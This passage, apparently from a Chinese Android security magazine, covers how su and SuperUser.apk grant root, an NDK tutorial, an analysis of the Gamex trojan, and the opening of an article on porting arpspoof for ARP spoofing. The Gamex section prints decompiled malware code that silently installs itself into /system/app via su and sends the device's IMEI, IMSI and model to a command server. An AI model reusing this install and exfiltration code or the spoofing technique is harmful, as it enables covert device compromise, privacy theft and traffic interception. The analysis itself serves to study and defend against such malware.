seteuid(st.st_uid);
```

`AID_ROOT` 与 `AID_SHELL` 分别是 root 与 shell 权限，程序直接放行；`stat()` 函数会检查手机是否安装有 `SuperUser.apk`，没有的话程序会拒绝执行。条件满足就会以 Superuser 的权限往下执行：

```c
db = database_init();
if (!db) {
    LOGE("sudb-Could not open database, prompt user");
    dballow = DB_INTERACTIVE;
} else {
    LOGE("sudb-Database opened");
    dballow = database_check(db, &su_from, &su_to);
    sqlite3_close(db);
    db = NULL;
    LOGE("sudb-Database closed");
}
switch (dballow) {
case DB_DENY: deny();
case DB_ALLOW: allow(shell, orig_umask);
case DB_INTERACTIVE: break;
default: deny();
}
```

`database_init()` 与 `database_check()` 负责从 `SuperUser.apk` 程序 `databases` 目录下的 `permissions.sqlite` 数据库中读取权限设置，这也是为什么 `SuperUser.apk` 有能力控制 `su` 的原因！

等 `dballow` 弄到手，该放行该拒绝就看着办了，如果没搜索到记录就代表是第一次，需要往下建立 `socket` 来调用 `send_intent`，`send_intent()` 采用底层构造 Intent 方式来发送广播，这个广播会被 `SuperUser.apk` 接收，返回后会显示字符串。

“ALLOW” 或 “DENY”：

```c
if(send_intent(&su_from,&su_to,socket_path,1,0)<0){
    deny();
}
if(socket_receive_result(socket_serv_fd,buf,sizeof(buf))<0){
    deny();
}
if(!strcmp(result,"DENY")){
    deny();
}else if(!strcmp(result,"ALLOW")){
    allow(shell,orig_umask);
}else{
    ALOGE("unknown response from SuperuserRequestor:%s",result);
    deny();
}
```

下面就是 SuperUser.apk 的工作了，上面的广播会被 SuperUser.apk 的 SuRequestReceiver 广播接收者收到，广播接收者首先读取 prompt 设置，如果用户要的是自动处理，那就根据这个值来对 Root 权限请求自动拒绝或自动放行；如果不自动处理，就到数据库中搜索权限规则，并根据结果发回处理。另外，SuperUser 除了对普通的程序进程 su 权限进行控制外，还提供了 NFC、SecretCode、PinCode 的监控；SuperUser 同时注册了安装与卸载 Apk 的广播接收者，在安装与卸载时会对权限数据库中的条目进行更新或删除操作，限于篇幅，SuperUser 的详细实现在此就不再展开了。

到这里本文就告一段落了。本文主要分析了手机 Root 权限获取的过程，并介绍了常见的几个 Root 提权漏洞，最后通过分析 su 与 SuperUser.apk 的协作方式解了 Root 真正的原理。由于本人知识有限，文中难免会有纰漏或理解出错的地方，如果您有任何问题或建议，还望来信交流，我的 Email：fei_cong@hotmail.com。

## 神问 Android 的核心解析 NDK


图/文 Sam

### 1. NDK 产生的背景

Android 平台从诞生起，就已经支持 C、C++ 开发。众所周知，Android 的 SDK 基于 Java 实现，这意味着基于 Android SDK 进行开发的第三方应用都必须使用 Java 语言。但这并不等同于“第三方应用只能使用 Java”。在 Android SDK 首次发布时，Google 就宣称其虚拟机 Dalvik 支持 JNI 编程方式，也就是第三方应用完全可以通过 JNI 调用自己的 C 动态库，即在 Android 平台上，“Java+C”的编程方式是一直都可以实现的。不过，Google 也表示，使用原生 SDK 编程与 Dalvik 虚拟机相比也有一些劣势，在 Android SDK 文档里找不到任何有关 JNI 方面的帮助。即使第三方应用开发者使用 JNI 完成了自己的 C 动态链接库（so）开发，但是如何将 so 和应用程序一起打包成 apk 并发布也存在技术障碍，比如程序更加复杂、兼容性难以保障、无法访问 Framework API、Debug 难度更大等。开发者需要自行斟酌使用。于是 NDK 就应运而生了。NDK 全称是 Native Development Kit。NDK 的发布，使“Java+C”的开发方式终于转正，成为官方支持的开发方式。NDK 将是 Android 平台支持 C 开发的开端。

### 2. NDK 简介

NDK 提供了一系列的工具，帮助开发者快速开发 C（或 C++）的动态库，并能自动将 so 和 Java 应用一起打包成 apk。这些工具对开发者的帮助是巨大的。NDK 集成了交叉编译器，并提供了相应的 mk 文件隔离 CPU、平台、ABI 等差异，开发人员只需要简单修改 mk 文件（指出“哪些文件需要编译”“编译特性要求”等），就可以创建出 so。NDK 可以自动地将 so 和 Java 应用一起打包，极大地减轻了开发人员的打包工作。

NDK 提供了一份稳定、功能有限的 API 头文件声明，Google 明确声明该 API 是稳定的，在后续所有版本中都稳定支持当前发布的 API。从该版本的 NDK 中看出，这些 API 支持的功能非常有限，包含有：C 标准库（libc）、标准数学库（libm）、压缩库（libz）、Log 库（liblog）。

### 3. Windows 下 NDK 开发环境的搭建

- 1. 安装 Cygwin。  
  NDK 编译用到 Cygwin 中的 make 和 gcc，所以要先下载安装 Cygwin。登录网址 www.cygwin.com，下载 setup.exe 并按向导安装。在“Cygwin Setup - Select Packages”中将 Devel 节点相关项切换为 Install，确保安装 make 和 gcc。安装完成后在 Cygwin 中输入 make -v 和 gcc -v 检查是否成功。

- 2. 下载 Android NDK 包。  
  Android 开发者网站在国内有时无法访问，可使用直链下载（如 android-ndk-r3-windows.zip）；若需更高版本可替换版本号（如 r4）。

- 3. 配置 NDK 环境。  
  安装完 Cygwin 和 NDK 后，需要设置环境变量。进入 Cygwin 安装目录（如 `C:\cygwin\home\Administrator`），编辑 `.bash_profile` 并在文件末尾添加配置，随后重启 Cygwin。

```bash
ANDROID_NDK_ROOT=/cygdrive/d/android-ndk-r3
export ANDROID_NDK_ROOT
```

执行编译后会生成 `libhello-jni.so`（如位于 `...\project\libs\armeabi`），并在 `...\out` 下生成 apps 目录存放共享库。注：NDK 环境既可通过 Cygwin 在 Windows 下搭建，也可直接在 Linux 下搭建。

### 4. NDK 开发实例

学习的第一步是模仿。可参照 Hello-jni 示例创建自己的 NDK 程序：在 sample 目录下创建工程 `myjni`，并建立 `jni` 与 `src` 两个目录，`jni` 放 C 文件，`src` 放 Java 接口调用相关文件。

```c
#include <string.h>
#include <stdio.h>
#include <jni.h>
#include <android/log.h>
#define LOG_TAG "MYJNI"
#define LOGI(...) __android_log_print(ANDROID_LOG_DEBUG, LOG_TAG, __VA_ARGS__)

static char s_string[] = "HelloNdk!";

jstring Java_com_jpf_myjni_MyJNI_stringFromJNI(JNIEnv* env, jobject thiz) {
    LOGI("MyJNI is called!");
    return (*env)->NewStringUTF(env, s_string);
}
```

该程序与 hello-jni 的不同点是引入了 `<android/log.h>`，通过 `__android_log_print()` 按不同 log 级别输出日志，便于调试。由于 NDK 中 `printf()` 不便直接输出，可借助 log 库将 C 代码输出内容经 Java 控制台显示，可以在 Eclipse 中查看 LogCat 来了解相关的输出信息了。

注意：在 C 文件中，函数名的定义为 `Java_com_jpf_myjni_MyJNI_stringFromJNI`。对于 JNI 的标准，定义需要按照如下格式：

`Java_packagename_classname_methodname`

例如：`Java_com_jpf_myjni_MyJNI_stringFromJNI`

接着创建文件 `jni/Android.mk`，这个文件是我们本地 C 代码的 Makefile。文件内容如下：

```makefile
LOCAL_PATH := $(call my-dir)
include $(CLEAR_VARS)
LOCAL_MODULE := myjni
LOCAL_SRC_FILES := myjni.c
LOCAL_LDLIBS := -llog
include $(BUILD_SHARED_LIBRARY)
```

下面分别对上述 Makefile 的语句进行说明。

- `LOCAL_PATH := $(call my-dir)`。这句代码用来指定编译的路径。通过调用宏 `my-dir`，获取到当前工作的路径。
- `include $(CLEAR_VARS)`。这个变量是编译系统提供的，用来指明一个 GNUmakefile 文件；添加这句主要是清理所有的 `LOCAL_XXX`，比如 `LOCAL_MODULE`、`LOCAL_LDLIBS`。在每个新模块的开始处都需要添加。
- `LOCAL_MODULE := myjni`。这句定义了模块名称，将来编译库就以此命名。如果编译的是动态库，库名就是 `libmyjni.so`。如果定义 module 为 `libmyjni`，系统生成动态库时不会再加 `lib` 前缀，生成名仍会出现重复前缀问题。
- `LOCAL_LDLIBS += -llog`。这句代码指定了需要另外链接的库。代码中用到了 `log` 库，因此要加上该语句。
- `include $(BUILD_SHARED_LIBRARY)`。这句说明将来生成的是共享库/动态链接库。若要生成静态库，可写：`include $(BUILD_STATIC_LIBRARY)`。

写完了 C 文件和 Makefile 文件，是否可以编译了呢？我们试一下。在 Cygwin 中进入工程目录，运行 `ndk-build`，得到下面的结果：

```bash
Administrator@lenovo-0e47e162 /android/android-ndk-r4/samples/myndk
$ ndk-build
Android NDK: Could not find application project directory!
Android NDK: Please ensure that you are inside the project directory.
.../android/android-ndk-r4/build/core/build-local.mk:74: *** Android NDK: Aborting. Stop.
```

这个错误的意思是，缺少 manifest 文件。老版本的 NDK 工程中有一个 apps，里面包含了应用的程序文件和 `Application.mk`。现在的版本不需要我们自己编写 `Application.mk`，不过仍需要与工程相关的配置信息。那么如何做到呢？需要手工去写 manifest 文件吗？不需要！我们只需要在 Eclipse 中创建工程即可，这些配置文件会自动生成。

前面讲过，在工程的 `src` 文件夹下用来放置 Java 文件。我们打开 Eclipse，然后新建一个 Android 工程，工程名就叫 MyJNI，工程路径选择我们创建的 NDK 路径。这里需要注意的是，工程名、包名等，需要和上面的 C 文件中的保持一致（`Java_com_jpf_myjni_MyJNI_stringFromJNI`）。

工程建立好后，编辑 `src/com/jpf/myjni/MyJNI.java` 文件，内容如下：

```java
package com.jpf.myjni;
import android.app.Activity;
import android.widget.TextView;
import android.os.Bundle;

public class MyJNI extends Activity {
    /** Called when the activity is first created */
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        TextView tv = new TextView(this);
        tv.setText(stringFromJNI());
        System.out.println("Here...");
        setContentView(tv);
        System.out.println("Done!");
    }

    public native String stringFromJNI();
    static {
        System.loadLibrary("myjni");
    }
}
```

这里需要说明几点：

`public native String stringFromJNI();`

这句代码声明带有 `native` 关键字，说明该方法是本地方法。

`System.loadLibrary("myjni");` 这句代码就是用来加载 C 动态库的。上面声明的方法的具体实现就在我们加载的库中。

建立好工程，再次编译，在 Cygwin 中运行 `ndk-build`。

```bash
Administrator@lenovo-0e47e162/android/android-ndk-r4/samples/myndk
$ ndk-build
Compile thumb: myjni <= /android/android-ndk-r4/samples/myndk/jni/myjni.c
SharedLibrary: libmyjni.so
Install: libmyjni.so => /android/android-ndk-r4/samples/myndk/libs/armeabi
```

我们看到，需要的共享库已经生成，并且安装好了。下面就可以生成 apk 包了。

在 Cygwin 中进行工程的创建、编译后，在工程的 bin 目录下会看到我们的 apk 包，如图 1 所示。


图 1

在 Eclipse 中选择执行方式为 Android Application，选择 run 命令，console 的输出如下：

```text
[2010-07-07 14:26:18-MyJNI] ...
[2010-07-07 14:26:18-MyJNI] Android Launch!
[2010-07-07 14:26:18-MyJNI] adb is running normally.
[2010-07-07 14:26:18-MyJNI] Performing com.jpf.myjni.MyJNIActivity launch
[2010-07-07 14:26:18-MyJNI] Automatic Target Mode: using existing emulator 'emulator-5554'
```

```text
[2010-07-07 14:26:18-MyJNI] WARNING: Application does not specify an API level requirement!
[2010-07-07 14:26:18-MyJNI] Device API version is 7 (Android 2.1-update1)
[2010-07-07 14:26:18-MyJNI] Uploading MyJNI.apk onto device 'emulator-5554'
[2010-07-07 14:26:18-MyJNI] Installing MyJNI.apk...
[2010-07-07 14:26:24-MyJNI] Success!
[2010-07-07 14:26:25-MyJNI] Starting activity com.jpf.myjni.MyJNI on device
[2010-07-07 14:26:29-MyJNI] ActivityManager: Starting: Intent ...
```

上面的 warning 是因为我们没有指定 API 的版本号，指定以后就没有这个 warning 了，指定的方法如图 2 所示。


图 2

执行效果如图 3 所示。


图 3

现在已经写出了第一个 NDK 程序，在后续文章中我们将继续更深入探讨 NDK 编程，让我们保持强烈的求知欲。

## Android Gamex 木马分析报告

图/文 非虫


2012 年 5 月刚开始就弄到了这个 Gamex 木马样本，该样本破坏性不大，不过对于安全分析人员来说，这可是很好的研究素材，今天我就将这个样本的完整分析过程拿来与大家分享。

这个样本通过捆绑软件 SD-Booster 来达到感染的目的，在安装运行被感染的 SD-Booster 时，木马会自动安装进 Android 系统。为了尽快找到感染部分，下载未感染的 SD-Booster 进行反编译对比，结果如图 1 所示。

```java
tService(localIntent);
```

直接启动的是 Settings.class 服务，这个服务很简单，启动代码如下：

```java
public void onStart(Intent paramIntent,int paramInt)
{
    super.onStart(paramIntent,paramInt);
    new Settings.1(this).start();
}

class Settings$1 extends Thread {
    public void run() {
        if ((!A.a) && (A.c()) && (A.d(A.context))) {
            A.a = 1;
            Settings localSettings = this.this$0;
            new C(localSettings).start();
            while (true) return;
            this.this$0.stopSelf();
        }
    }
}
```


图 1

程序被植入了“com.android.md5”与“com.gamex.inset”两个包，首先找到植入程序的加载处，在 SDBoost 类的 onCreate() 方法中插入了如下代码：

```java
public void onCreate(Bundle paramBundle) {
    super.onCreate(paramBundle);
    A.b(this);
    ...
}
```

A 是“com.gamex.inset”包中的类，A.b() 方法代码如下：

```java
public static void b(Context paramContext)
{
    context = paramContext;
    Intent localIntent = new Intent(paramContext, Settings.class);
    ComponentName localComponentName = paramContext.start...
}
```

- a 初始化为 0，用来判断木马是否已经运行；
- A.c() 方法只有一行代码，用于判断 SD 卡是否已经准备好，为后面的病毒下载做准备；
- A.d() 方法判断木马程序“com.android.setting”是否已经安装，如果没有安装就启动 C 线程来安装木马；
- C 类的 run() 方法在线程中通过 `context.getAssets().open("logos.png")` 读取木马文件，然后通过解密运算得到最终的 apk 安装文件。

### 代码解密与安装逻辑分析

现，代码如下：

```python
# -*- coding:utf-8 -*-
import sys

def main(filename):
    infile = file(filename, "rb")
    outfile = file(filename[:-4] + ".apk", "wb")
    while 1:
        c = infile.read(1)
        if not c:
            break
        c = chr(ord(c) ^ 18)
        outfile.write(c)
    outfile.close()
    infile.close()

if __name__ == "__main__":
    main(sys.argv[1])
```

解密只是将整个文件与 `0x12` 做异或运算而已，运行 `python decrypt_apk.py logos.png` 就会生成 `logos.apk` 木马文件。在上一步的解密完成后，调用了 `a(String)` 方法来安装木马，代码如下：

```java
protected static void a(String paramString)
{
    try {
        Process localProcess = Runtime.getRuntime().exec("su");
        OutputStream localOutputStream = localProcess.getOutputStream();
        DataOutputStream localDataOutputStream = new DataOutputStream(localOutputStream);
        localDataOutputStream.writeBytes("mount -o remount rw /system\n");
        String str = "cp -f " + paramString + " /system/app/ComAndroidSetting.apk\n";
        localDataOutputStream.writeBytes(str);
        Thread.sleep(20000L);
        localDataOutputStream.writeBytes("chmod 644 /system/app/ComAndroidSetting.apk\n");
        localDataOutputStream.writeBytes("exit");
        localDataOutputStream.flush();
        int i = localProcess.waitFor();
        return;
    } catch (IOException e) {
        ...
    } catch (InterruptedException e) {
        ...
    }
}
```

这段代码将整个程序复制到了 `/system/app/` 目录下，使其成为系统程序。在安装完成后运行如下代码来发送广播与停止 `Settings` 服务：

```java
Intent intent = new Intent("kurhjfngjhfghdfjgijdh");
context.sendBroadcast(intent);
Intent intent1 = new Intent(context, com/android/md5/Settings);
boolean flag3 = context1.stopService(intent1);
```

这个奇怪字符串的广播是用来被木马接收的，到这里，捆绑部分的工作做完了。下面是木马真身上场了，将刚才解密出的 `LOGOS.APK` 解包，使用 `dex2jar` 后，查看 `AndroidManifest.xml` 文件，发现木马没有界面，并且是通过两个开机广播来运行的，如图 2 所示。

```xml
<receiver android:name=".B">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED" />
        <action android:name="kurhjfngjhfghdfjgijdh" />
    </intent-filter>
</receiver>
<receiver android:name=".M">
    <intent-filter>
        <action android:name="..." />
    </intent-filter>
</receiver>
```

图 2

这也验证了 SDBoost 对发送奇怪字符串广播的分析，第一个广播接收者代码如下：

```java
public class B extends BroadcastReceiver {
    public static final String g = "android.intent.action.BOOT_COMPLETED";
    public static final String qx = "kurhjfngjhfghdfjgijdh";

    public void onReceive(Context paramContext, Intent paramIntent) {
        if ((paramIntent.getAction().equals("android.intent.action.BOOT_COMPLETED")) ||
            (paramIntent.getAction().equals("kurhjfngjhfghdfjgijdh"))) {
            A.b(paramContext);
        }
    }
}
```

这个 `A.b()` 方法启动了 `Settings.class` 服务，这个服务里面启动了一个线程，可以找到前面分析线程的类似框架代码如下：

```java
public void run() {
    try {
        this.this$0.d();
        sleep(30000L);
        if ((A.a) && (A.c()) && (A.d(this.this$0))) {
            A.a = !1;
            Settings localSettings1 = this.this$0;
            new E(localSettings1).start();
            return;
        }
    } catch (InterruptedException e) {
        ...
    }
}
```

`d()` 方法负责解码 C&C（Control & Command）服务器地址并发送手机的隐私信息，解码代码为 Settings 的 `getUrl()` 方法，使用 Python 实现解码的代码如下。

密代码我也用 Java 实现了，在附件中一起打包了，解密出的结果如图 4 所示。

```python
# -*- coding:utf-8 -*-
import sys

def decrypt2url(decryptedfile):
    f = file(decryptedfile, 'r')
    buf = f.read()
    bs = map(ord, buf)
    ...

def main(filename):
    PASS = ''.join(ch(x) for x in [9, 5, 9, 8, 5])
    infile = file(filename, 'rb')
    outfile = file(filename[:-4] + ".txt", 'wb')
    ...
```


图 4

直接访问这个网址是禁止的，在 `d()` 方法中，将 `getDeviceId()`、`getSubscriberId()`、`Build.MODEL`、`getApplicationInfo(str3,128).metaData.getString("CMP_PID")` 的结果与其他字符组合得到最终的网址为：

`http://www.fineandroid.com/inputex/index.php?s=/Interface/keinter/a1/DeviceId/a2/SubscriberId/a3/MODEL/index/xian1234`

最后调用 `b(String)` 方法启动一个线程将信息发送出去，代码如下：

```java
public void run() {
    HttpGet localHttpGet = new HttpGet(str);
    try {
        HttpResponse localHttpResponse = new DefaultHttpClient().execute(localHttpGet);
        if ((localHttpResponse.getStatusLine().getStatusCode() == 200) && ... ) {
            SharedPreferences.Editor localEditor1 = ...;
            ...
        }
    } catch (ClientProtocolException e) {
        ...
    }
}
```

这段解密脚本首先将 `logo.png` 文件的每个字节与 `[9,5,9,8,5]` 解密原子进行异或运算，解出来后的内容如图 3 所示。


图 3

得到这个字符串后，将字符串首尾倒序排列一次，排列完毕后的每一个逗号分隔的数字为一个字符的 ASCII 码，然后取这些 ASCII 码的偶数位得到最终的 URL 地址。另外，为了照顾使用 Java 的同学，解密代码也给出。

如果提交成功就保存到 `SharedPreferences` 中，我们构造字符串手动访问，如图 5 所示。


图 5

### Settings 线程后续行为与第二木马模块

继续回到刚才 `Settings.1` 线程，在做完这些工作后，又开始判断了：

- `A.a()` 方法判断木马是否已经运行。
- `A.c()` 方法判断 SD 卡是否已经准备到位。
- `A.d(Context)` 方法判断是否安装有 `com.android.update` 木马程序。

如果没有安装，就开启一个 `E` 线程做工作。`E` 线程启动注册了两个广播接收者 `android.intent.action.PACKAGE_ADDED` 与 `android.intent.action.PACKAGE_CHANGED`，广播接收到 `Intent("akjgikurhnfjghfk")` 后就启动 `Settings.class` 服务……

```xml
<receiver android:name=".B">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED" />
        <action android:name="akjgikurhnfjghfk" />
    </intent-filter>
</receiver>
```

图 6

广播接收者的代码如下：

```java
public class B extends BroadcastReceiver {
    public static final String a = "akjgikurhnfjghfk";
    public static final String q = "android.intent.action.BOOT_COMPLETED";

    public void onReceive(Context paramContext, Intent paramIntent) {
        if ((paramIntent.getAction().equals("android.intent.action.BOOT_COMPLETED"))
            || (paramIntent.getAction().equals("akjgikurhnfjghfk"))) {
            A.boot(paramContext);
        }
    }
}
```

在收到广播后，调用 A 类 `boot()` 方法启动了 `Updater.class` 服务，这个服务生成了 4 个对象来完成所有的木马工作，代码为：

```java
public void onStart(Intent paramIntent, int paramInt) {
    super.onStart(paramIntent, paramInt);
    D localD = new D(this);
    this.activityThread = localD;
    F localF = new F(this);
    this.getSoftThread = localF;
    G localG = new G(this);
    this.downSoftThread = localG;
    H localH = new H(this);
    this.installSoftThread = localH;
}
```

4 个对象分工明确，我们慢慢来分析。第一个对象 D 为“卫兵”对象，负责“通风报信”的工作，在对象构造时注册了广播接收者 D.1，分别监听 `android.intent.action.SCREEN_OFF` 与 `android.intent.action.SCREEN_ON`……最后调用 `D.n(String)` 方法往 C&C 服务器发送信息，代码如下：

```java
public void i(String paramString) {
    String str1 = ((TelephonyManager)this.g.getSystemService("phone")).getDeviceId(); // 获取IMEI
    if (str1 == null) str1 = "";
    String str2 = String.valueOf(j());
    String str3 = String.valueOf(str2 + "inputex/index.php?s=/interface/neinter/a1/");
    String str4 = str3 + str1 + "/nani/" + paramString;
    j(str4);
}
```

`j()` 方法用来解密 Assets 目录下的 `icon.png` 文件来获取 C&C 地址，依旧可以使用 `decrypt_url.py` 来解密，解密后的地址仍然是 `"http://www.fineandroid.com/"`，组合生成 URL 后调用 `j(String)` 发送出去，方法与 `com.android.android` 是一样的。到这里，D 对象就算讲完了，下一个是 F 对象……

数据库中供木马查询，`F.k()` 解得地址为 `http://fineandroid.com/InstallApk/php4sam.php`，直接访问，如图 7 所示。


图 7

```java
{
    return;
    if (localNetworkInfo.getTypeName().equals("WIFI")) {
        localIterator = localList.iterator();
        if (!localIterator.hasNext())
            continue;

        Handle1 localHandle1 = this.f;
        new P(localContext1, str1, str2, "download", str3, localHandle1).start(); // 开始下载
        this.d -= 1;
        setSleepTime(60000L); // 下载完成休息1分钟
        continue;
    }

    new P(localContext2, str4, str5, "download", str6, localHandle2).start(); // 开始下载
    this.d -= 1;
    setSleepTime(18000000L); // 休息5小时
}
```

这个木马的作者是中国人，整个 HTML 内容的解读都是由 `J.a(InputStream)` 完成的，这里限于篇幅就不贴出来了，最后得到的 List 数据是通过 `M.g(String,...)` 插入数据库的，在保存前调用 `F.e(String)` 进行简单的加密，我就不分析了。看看第 3 个 G 类，它负责木马的下载工作，核心的方法为 `loop()`：首先调用 `M.c()` 检查没有下载的木马软件，如果有软件没有下载，就检查是否在 WiFi 环境下，如果条件都满足就新建一个 `P` 对象，后者调用 `K.d(String,...)` 开始下载，下载完成后调用 `M.h()` 设置木马的下载状态，这些工作都做完后让线程进入睡眠状态，WiFi 状态下休息 1 分钟，非 WiFi 状态下休息 5 个小时。相应的代码如下：

```java
protected void loop() {
    NetworkInfo localNetworkInfo = ((ConnectivityManager)this.e.getSystemService("connectivity")).getActiveNetworkInfo();
    List localList;
    if ((localNetworkInfo != null) && (localNetworkInfo.isAvailable()) && (this.d)) {
        localList = this.h.c();
        if (localList.size() == 0)
            setSleepTime(60000L); // 如果没有软件要下载，就休息1分钟
    }
    while (true)
}
```

最后的 H 类是安装类，它没有做实质性的工作，只是隔一段时间发一次广播并更新一下已下载的木马软件状态到数据库中。到这里，整个 Gamex 木马就分析完了。

通过对 Gamex 木马的分析，我们看到其中用到了代码捆绑、软件静默安装、URL 提交与响应、开机广播、文件加/解密等大量的代码，这些代码在 Android 程序员的日常编码过程中是常见的，只有掌握好 Android 基础，把握程序的分析思路才能将 Android 木马看通透。最后补上一张 Gamex 的流程图，方便大家理解，如图 8 所示。


图 8

## Android 平台下 ARP 欺骗的分析与实现

图/文 非虫

ARP 欺骗已经不是什么新话题了，早在 2003 年的时候，ARP 欺骗就红遍了整个互联网。那时候的网络防火墙技术远远没有现在完善，很多网络攻击手法还处于技术的雏形阶段。随着攻击人员的深入研究，各种攻击软件也是风生水起。可以说，从那个时代过来的 IT 人员真正见证了互联网的发展。

Android 手机将传统的智能手机应用带入了另一种高度，不仅用户能够体验到更多更优秀的软件，而且 Android 将传统的 PC 软件开发与移动软件开发完美融合，开发者只需掌握传统的 Java 语言与很少的开发规范，就能快速开发出 Android 软件。Android 推动了移动互联网的发展，也为移动互联网的安全带来了更多的隐患，本文主要与大家探讨 Android 平台下如何实现 ARP 攻击。

ARP 是以 48 位以太网地址（MAC 地址）传输以太网数据包的协议环境中，用于确定 IP 地址与 MAC 地址对应关系的协议。ARP 工作时，请求主机会发送包含目标 IP 的广播数据包，目标主机会返回 IP 与 MAC 地址对应的数据包。请求主机据此写入 ARP 缓存，以减少后续通信开销。ARP 缓存采用老化机制，超时未使用的条目会被删除（如 Windows 约 2 分钟，Cisco 路由器约 5 分钟）。

### ARP 欺骗原理

ARP 攻击由于有些年代了，在网络上很容易找到相关原理知识。要想了解 ARP 欺骗攻击的原理，首先就要了解什么是 ARP。ARP 是地址转换协议（Address Resolution Protocol）的英文缩写，它是一个链路层协议，工作在 OSI 模型的第二层，在本层和硬件接口间进行联系，同时对上层（网络层）提供服务。二层交换设备不能识别 32 位 IP 地址，它们依赖 MAC 地址进行转发，因此需要 ARP 建立 IP 与 MAC 的映射。

“假如我们有两个网段、三台主机、两个网关，分别是：”

| 主机名 | IP 地址 | MAC 地址 |
|---|---|---|
| 网关1 | 192.168.1.1 | 01-01-01-01-01-01 |
| 主机A | 192.168.1.2 | 02-02-02-02-02-02 |
| 主机B | 192.168.1.3 | 03-03-03-03-03-03 |
| 网关2 | 10.1.1.1 | 04-04-04-04-04-04 |
| 主机C | 10.1.1.2 | 05-05-05-05-05-05 |

“假如主机 A 要与主机 B 通信，它首先会通过网络掩码比对，确认与主机 B 是否在同一网段内。如果在，它就会检查自己的 ARP 缓存中是否有 192.168.1.3 这个地址对应的 MAC 地址，如果没有，它就会向局域网的广播地址发送 ARP 请求包，而广播地址会把这个请求包广播给局域网内的所有主机，但是只有 192.168.1.3 这台主机才会响应这个请求包。这样的话，主机 A 就得到了主机 B 的 MAC 地址，并且它会把这个对应关系保存在自己的 ARP 缓存表中。之后主机 A 与主机 B 之间的通信就依靠两者缓存表里的 MAC 地址来进行了，直到通信停止后两分钟，这个对应关系才会被从表中删除。”

“再来看一个非局域网内部的通信过程，假如主机 A 需要和主机 C 进行通信，它首先会通过比对掩码发现主机 C 的 IP 地址并不和自己在一个网段内，因此需要通过网关来转发。这样的话它会检查自己的 ARP 缓存表里是否有网关1（192.168.1.1）对应的 MAC 地址，如果没有，就通过 ARP 请求获得；如果有，就直接与网关通信，然后再由网关1通过路由器将数据包送到网关2。网关2收到这个数据包后发现是送给主机 C（10.1.1.2）的，它就会检查自己的 ARP 缓存表（没错，网关一样有自己的 ARP 缓存表），看看里面是否有 10.1.1.2 对应的 MAC 地址，如果没有，就使用 ARP 协议获得；如果有，就用该 MAC 地址将数据转发给主机 C。”

“在了解 ARP 协议后，我们再来看看什么是 ARP 欺骗，它的目的又是什么？通过上面的例子我们知道了在以太局域网内数据包传输依靠的是 MAC 地址，IP 地址与 MAC 对应的关系依靠 ARP 表，每台主机（包括网关）都有一个 ARP 缓存表。在正常情况下，这个缓存表能够有效地保证数据传输的一对一性，也就是说，主机 A 与主机 C 之间的通信只通过网关1和网关2，像主机 B 之类的是无法截获 A 与 C 之间的通信信息的。但是在 ARP 缓存表的实现机制中存在一个不完善的地方：当主机收到一个 ARP 应答包后，它并不会去验证自己是否发送过这个 ARP 请求，而是直接利用应答包里 MAC 地址与 IP 对应的关系替换掉原有 ARP 缓存表里的相应信息。”

“这就导致主机 B 截取主机 A 与主机 C 之间的数据通信成为可能。首先主机 B 向主机 A 发送一个 ARP 应答包，说 192.168.1.1 的 MAC 地址是 03-03-03-03-03-03，主机 A 收到这个包后并没有去验证它的真实性，而是直接将自己 ARP 列表中的 192.168.1.1 的 MAC 地址替换成 03-03-03-03-03-03；同时主机 B 向网关1发送一个 ARP 响应包，说 192.168.1.2 的 MAC 是 03-03-03-03-03-03，同样网关1也没有去验证这个包的真实性，就把自己 ARP 表中的 192.168.1.2 的 MAC 地址替换成 03-03-03-03-03-03。”

当主机 A 想要与主机 C 通信时，它直接把应该发送给网关1（192.168.1.1）的数据包发送到 03-03-03-03-03-03 这个 MAC 地址，也就是发给了主机 B。主机 B 在收到这个包后经过修改再转发给真正的网关1。当从主机 C 返回的数据包到达网关1后，网关1也使用自己 ARP 表中的 MAC，将发往 192.168.1.2 这个 IP 地址的数据发往 03-03-03-03-03-03 这个 MAC 地址，也就是主机 B。主机 B 在收到这个包后再转发给主机 A，完成一次完整的数据通信，这样就成功地实现了一次 ARP 欺骗攻击。因此，简单点说，ARP 欺骗的目的就是为了实现全交换环境下的数据监听与篡改。到这里我们知道，要完成一次有效的 ARP 欺骗，关键点就是双向欺骗，也就是说欺骗者必须同时对网关和主机进行欺骗。

### Android 中如何实现 ARP 欺骗

要想实现 ARP 欺骗，需要自己编写代码来构造 ARP 包，并且软件能够发送与截获 ARP 包。整个 ARP 欺骗的过程也就是处理与发送数据包的过程。构造、截获与发送数据包都是比较底层的操作，自己实现这些代码是很烦琐的。幸好，实现这些操作都有相关的开源库可以使用，目前比较成熟且稳定的有 libnet 与 libpcap。

libnet 库提供了数据包构造和发送的接口，libpcap 库提供了与数据包截获有关的接口。利用这些接口，网络安全工具开发人员可以很方便地编写出具有结构化强、健壮性好、可移植性高等特点的程序，当然开发攻击软件更不是问题。

针对 ARP 欺骗攻击，网络上已经有了一款跨平台的工具 arpspoof，并且这款工具是开源的。因此，本文主要介绍 arpspoof 到 Android 的移植，最后使用 arpspoof 进行攻击测试。

### arpspoof 代码移植

在开始移植前，先说一下将开源 C/C++ 库移植到 Android 系统的一般步骤。

- 首先搭建好移植环境。编译环境：Linux 系统或 Windows 系统 + Cygwin 环境。编译工具：Android NDK。
- 下载库的代码并解压。
- 查看源码中是否有 configure 配置文件，如果有头文件或其他文件，需要先配置。Linux 环境下在终端提示符下执行 `./configure` 进行配置（有些时候可以提供配置参数，具体与库代码相关），Windows 环境下可以在 Cygwin 终端下执行 `./configure` 进行配置。
- 是否需要生成其他文件，如果需要，根据具体情况生成。
- 编写 `Android.mk` 脚本文件。
- 使用 `ndk-build` 进行编译测试，如果出现编译错误，反复修改 `Android.mk` 脚本或源码中 `config.h` 配置文件（如果有的话），直到最终编译成功。

笔者在配置 libnet 与 libpcap 时，在 XP + Cygwin 环境下执行 `./configure` 始终提示错误，最终环境选择了 Ubuntu 10.04，Android NDK 选择了 Linux r8 版本（可以从 http://developer.android.com/tools/sdk/ndk/index.html 下载）。

下面开始移植。从官网下载 arpspoof 源码，地址为 http://arpspoof.sourceforge.net，然后下载依赖库 libnet 与 libpcap。libnet 的下载地址为 http://sourceforge.net/projects/libnet-dev/，目前版本为 libnet 1.1.6。libpcap 库在 Android 源码中有移植好的 0.9.8 版本，不过本着学习的目的，还是从官网下载最新的 1.3.0 版本进行移植，下载地址为 http://www.tcpdump.org/。

